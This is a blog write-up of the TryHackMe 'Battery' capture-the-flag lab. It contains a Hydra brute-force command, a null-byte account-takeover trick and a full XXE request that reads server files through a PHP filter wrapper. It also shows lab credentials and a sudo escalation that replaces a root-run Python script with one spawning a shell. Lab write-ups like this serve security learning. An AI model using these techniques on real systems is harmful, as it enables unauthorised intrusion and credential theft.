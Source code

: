 ```yaml
---
layout: post
title:  "THM: Battery"
date:   2021-01-19 19:30:00 +1100
category: hacking
---
```


## battery
*Electricity bill portal has been hacked many times in the past , so we have fired one of the employee from the security team , As a new recruit you need to work like a hacker to find the loop holes in the portal and gain root access to the server .*

This is [Battery](https://tryhackme.com/room/battery) from THM. It's medium rated.

## Ports
Just SSH and HTTP on their standard ports. The description pretty clearly shows it is the website we're interested in.

## HTTP
I'm liking dirsearch:

>root@kali:/opt/tryhackme/battery# cat /opt/dirsearch/reports/battery.thm/_21-01-15_20-41-52.txt  
200   663B   http://battery.thm:80/admin.php  
302   908B   http://battery.thm:80/dashboard.php    -> REDIRECTS TO: admin.php  
200     2KB  http://battery.thm:80/forms.php  
200   406B   http://battery.thm:80/index.html  
302     0B   http://battery.thm:80/logout.php    -> REDIRECTS TO: admin.php  
200   715B   http://battery.thm:80/register.php  
200    17KB  http://battery.thm:80/report  
301   311B   http://battery.thm:80/scripts    -> REDIRECTS TO: http://battery.thm/scripts/  
200     2KB  http://battery.thm:80/scripts/  
403   292B   http://battery.thm:80/server-status/  

So we have a webapp that we can register a user for and then login to. It is a payment portal that is partially implemented and it has a few functions that are for 'admins' only. Presumably this is where we need to get to.

The *report* page provides a binary; it's easily disassembled in Ghidra and provides a list of users:

>root@kali:/opt/tryhackme/battery# cat users  
support@bank.a  
contact@bank.a  
cyber@bank.a  
admins@bank.a  
sam@bank.a  
admin0@bank.a  
super_user@bank.a  
admin@bank.a  
control_admin@bank.a  
it_admin@bank.a  

Unfortunately it doesn't give us any (useful) passwords. I try a password attack on the login portal using Hydra:

``
hydra -L users -P /usr/share/wordlists/rockyou.txt battery.thm http-post-form "/admin.php:uname=^USER^&password=^PASS^&btn=Submit:S=302"
``

I don't run this too long, but it's getting nowhere. The binary does show that the user *admin@bank.a* has the ability to change passwords - maybe it's this particular used we need. In the meantime I decide *forms.php* is probably our target. I can see the content in Burp Suite but can't interact with it. The form submits an XML message, so perhaps the intended method is XXE injection. However, I still need to become admin to do anything useful.

I try messing about with adding a cookie with various flavours of *admin*, *isadmin=True* etc; nothing. I try **sqlmap** on various forms in the hope of dumping DB contents; nothing. I try to detect **nosql** injection; nada.

Next, I try registering a user using null bytes after the name:

>admin%00

This does successfully register a user, but it's still not the admin we want. You can't enter *admin@bank.a%00* into the registration form, because it is limited to 12 characters - just enough for the name *without* the null bytes.

At this point, I put it aside and do other things.

### Several days later
I check a hint - I was on the right track. We do want *admin@bank.a%00* - you just have to do it via Burp Suite to bypass the (JS) length restriction. I was so close!

After that, we have access to *acc.php* and *forms.php* which we didn't previously. No matter what is entered in *acc.php* you get a message about *RCE detected* and are logged out; this is a rabbit hole. Forms is what we want, and I'm sure it's XXE.

## XXE
It takes a bit to figure out, because it's not the simplest form of XXE. But it's [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#php-wrapper-inside-xxe) to the rescue, with a PHP Wrapper inside XXE technique. Possibly others worked too, but this is what I used. Initially I read */etc/passwd*, then once I had the user names (*cyber* and *yash*) I looked for SSH keys; nope. Next I tried the code for the webapp, e.g.:

{% highlight html %}
POST /forms.php HTTP/1.1
Host: battery.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/xml
Content-Length: 237
Origin: http://battery.thm
Connection: close
Referer: http://battery.thm/forms.php
Cookie: PHPSESSID=1mn84batacq9jo1ar0188l3la5

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=../../../../../../../../var/www/html/acc.php"> ]>
<root>
<name>21</name>
<search>yee yee &xxe;</search>
</root>
{% endhighlight %}

This particular file contained hardcoded creds - score!
>//MY CREDS :- cyber:super#secure&password!  

## Privesc
Once we're on as *cyber*, we find:

{% highlight shell %}
cyber@ubuntu:~$ sudo -l
Matching Defaults entries for cyber on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cyber may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/bin/python3 /home/cyber/run.py
{% endhighlight %}

If we run this, it just prints out a message. We can't read it, since it's owned by root and we haven't been given permission. But that doesn't matter, because we can replace it:

{% highlight shell %}
cyber@ubuntu:~$ rm run.py
rm: remove write-protected regular file ‘run.py’? y
# make my own
root@ubuntu:~# cat run.py 
import os
os.system("echo pwn")
os.system("/bin/bash")
cyber@ubuntu:~$ sudo -u root /usr/bin/python3 /home/cyber/run.py
pwn
root@ubuntu:~# cd /root
root@ubuntu:~# id;hostname
uid=0(root) gid=0(root) groups=0(root)
ubuntu
{% endhighlight %}

And we are done.
